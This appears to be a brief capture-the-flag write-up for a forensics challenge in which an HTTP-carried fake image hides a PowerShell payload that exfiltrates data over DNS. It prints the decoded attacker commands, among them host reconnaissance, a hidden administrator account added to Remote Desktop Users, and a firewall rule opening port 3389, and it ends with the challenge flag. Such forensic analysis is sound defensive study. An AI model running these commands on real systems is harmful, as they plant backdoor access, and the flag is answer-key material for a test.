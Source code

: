 Open pcap

Export all objects sent over http

See desktop.png and its not valid

Open with text editor and base64 decode to get the payload.ps1

Uses dns to exfil

With some modification and passing the TXT record information we get the below and decoding the base64 username in there gives us part of the flag (solve-part1.ps1)
```powershell
hostname
whoami
ipconfig
wmic /namespace:\\root\SecurityCenter PATH AntiVirusProduct GET /value
net user DefaultUsr "JHBhcnQxPSdIVEJ7eTB1X2M0bl8n" /add /Y; net localgroup Administrators /add DefaultUsr; net localgroup "Remote Desktop Users" /add DefaultUsr
netsh advfirewall firewall add rule name="Terminal Server" dir=in action=allow protocol=TCP localport=3389
```
```powershell
$part1='HTB{y0u_c4n_'
```

Continuing this further to decode the response exfil we get (solve-part2.ps1)
```powershell
$part2=4utom4t3_but_y0u_c4nt_h1de}
```
```
HTB{y0u_c4n_4utom4t3_but_y0u_c4nt_h1de}
```